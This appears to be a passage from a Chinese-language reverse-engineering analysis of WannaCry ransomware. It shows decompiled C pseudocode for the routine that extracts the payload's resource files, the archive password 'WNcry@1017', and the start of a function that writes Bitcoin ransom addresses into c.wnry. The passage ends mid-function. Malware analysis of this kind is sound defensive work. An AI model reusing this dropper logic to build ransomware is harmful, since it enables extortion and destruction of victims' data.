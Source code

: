```c
if ( !v7 )  

return 0;  

v11 = 0;  

memset(&Str1, 0, 0x128u);  

SetReleasePath(v7, -1, (int)&v11);            // 将0x24放到内存中 v11=0x24  

v9 = v11;  

v10 = 0;  

if ( v11 > 0 )  

{  

do  

{  

SetReleasePath(v7, (int)v10, (int)&v11);  // 设置文件释放的路径 并保存到内存中  

if ( strcmp(&Str1, Str2) || GetFileAttributesA(&Str1) == -1 )

// 比较b.wnry和c.wnry  

ReleaseFile((int)v7, v10, &Str1);       // 释放文件到工作目录下  

++v10;  

}  

while ( (signed int)v10 < v9 );  

}  

FreeMemory(v7);                               // 做内存释放等扫尾工作  

return 1;  

}  
```

该函数的主要作用就是将资源包中的文件，利用解压密码"WNcry@1017"进行解压到当前进程的路径下，方便下面的操作进一步利用压缩包中的文件。

### 5.2.4 WriteCwnry 重写c.wnry

```c
int WriteCwnry()    {  

Source = a13am4vw2dhxygx;                  // 13AM4VW2dhxYgXeQepoHkHSQuy6NgaEb94

v5 = a12t9ydpgwuez9n;                      // 12t9YDPgwueZ9NyMgw519p7AA8isjr6SMw  

v6 = a115p7ummngoj1p;                      // 115p7UMMngoj1pMvkpHijcRdfJNXj6LrLn  

result = ReadOrWriteFileToMem(&DstBuf, 1);    // 读取c.wnry到内存中   

if ( result )    {  

v1 = rand();  

```